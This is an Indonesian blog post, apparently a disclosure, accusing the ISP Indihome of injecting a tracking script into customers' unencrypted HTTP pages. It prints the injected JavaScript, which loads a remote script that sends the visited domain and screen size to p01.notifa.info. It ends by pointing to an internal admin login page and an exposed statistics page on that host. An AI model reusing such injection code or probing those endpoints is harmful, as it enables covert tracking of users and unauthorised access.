 ```yaml
---
published: true
---
```

## Derita Pelanggan Indihome, Sudah Bayar Datanya Malah Dicuri

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

### Tracker Untuk Mencuri Browsing History Pengguna

Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

```javascript
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
![indihome1.png]({{site.baseurl}}/_posts/indihome1.png)

Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome.
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

```javascript
http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
```

Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan. 

-Website yang kamu kunjungi

```javascript
domain=www.petnyaku.com
```

-Resolusi layar

```javascript
sw=2304&sh=1296
```

Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut. 

### Dibalik p01.notifa.info

Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :

Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management.

Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :
Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar). 


